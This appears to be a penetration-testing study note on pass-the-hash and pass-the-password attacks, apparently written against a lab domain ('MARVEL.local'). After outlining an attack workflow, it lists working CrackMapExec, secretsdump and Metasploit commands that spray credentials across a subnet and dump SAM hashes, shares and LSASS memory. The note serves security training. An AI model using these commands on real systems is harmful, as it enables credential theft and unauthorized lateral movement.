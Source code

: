# Pass Attacks Overview
> 29.07.2024
---

## Explanation

**Pass attacks** are a type of cybersecurity threat where attackers use captured credentials, such as passwords or hashes, to move laterally within a network and gain unauthorized access to systems. The primary goal is to find a valid login on one of the machines within the network, allowing the attacker to escalate privileges and potentially compromise the entire system.

**Pass the Hash** is a hacking technique where an attacker captures a hashed version of a password and uses it to authenticate themselves without needing to know the actual password. 

**Pass the Password** is a simpler concept compared to Pass the Hash. In this attack, the actual plaintext password is captured and used directly by the attacker.

## Workflow

#### 1. Initial Access
- **Objective:** Gain a foothold in the network.
- **Methods:**
    - **Phishing:** Sending emails with malicious attachments or links to employees to trick them into revealing credentials or installing malware.
    - **Exploiting Vulnerabilities:** Taking advantage of known vulnerabilities in software or systems to gain access.
    - **Social Engineering:** Manipulating individuals to disclose sensitive information or credentials.

#### 2. Credential Harvesting
- **Objective:** Capture user credentials, either in plaintext or hashed form.
- **Methods:**
    - **Keylogging:** Using malware to record keystrokes and capture usernames and passwords.
    - **Memory Dumping:** Extracting password hashes directly from the computer's memory.
    - **Network Sniffing:** Monitoring unencrypted network traffic to capture credentials being transmitted.

#### 3. Credential Analysis
- **Objective:** Identify useful credentials for lateral movement.
- **Methods:**
    - **Analyzing Hashes:** Reviewing captured password hashes to determine their potential usability.
    - **Cracking Passwords:** Attempting to decrypt hashed passwords using tools like John the Ripper or Hashcat, especially for weak or common passwords.

#### 4. Lateral Movement
- **Objective:** Move through the network using stolen credentials.
- **Methods:**
    - **Pass the Hash (PtH):** Using hashed credentials to authenticate with other machines on the network without needing the plaintext password.
    - **Pass the Password:** Using plaintext passwords to log into other machines directly.
    - **Remote Access Tools:** Utilizing tools like RDP (Remote Desktop Protocol) or PsExec to execute commands on remote machines.


## How to ["Crackmapexec" ](https://github.com/byt3bl33d3r/CrackMapExec) 

**Pass the Password:**
```bash
crackmapexec smb <ip/CIDR> -u <user> -d <domain> -p <passwd>

crackmapexec smb 10.0.2.0/24 -u fcastle -d MARVEL.local -p Password123
```

**Pass the Hash:**
```bash
crackmapexec smb <ip/CIDR> -u <user> -H <hash> --local-auth

crackmapexec smb 10.0.2.0/24 -u administrator -H $hash --local-auth
```

**Dump  SAM hashes:**
```bash
crackmapexec smb <ip/CIDR> -u <user>> -H <hash> --local-auth --sam

crackmapexec smb 10.0.2.0/24 -u administrator -H $hash --local-auth --sam
```

**Dump shares:**
```bash
crackmapexec smb <ip/CIDR> -u <user> -H <hash> --local-auth --shares

crackmapexec smb 10.0.2.0/24 -u administrator -H $hash --local-auth --shares
```

**Dump lsass with lsassy:**
```bash
crackmapexec smb <ip/CIDR> -u <user> -H <hash> --local-auth -M lsassy

crackmapexec smb 10.0.2.0/24 -u administrator -H $hash --local-auth -M lsassy
```

**Show built in modules:**
```bash
crackmapexec smb -L
```

**The CME DB:**
```bash
cmedb
```

**Cheatsheet from CME:**
https://ptestmethod.readthedocs.io/en/latest/cme.html

## Grab local hashes

**Get hashes via [secretsdump](https://github.com/fin3ss3g0d/secretsdump.py):**
```bash
secretsdump.py <domain>/<user>:<passwd>@<ip>

secretsdump.py MARVEL.local/fcastle:Password123@10.0.2.25
```

**Get hashes via metasploit:**

```bash
msfconsole -q
use windows/smb/psexec
```

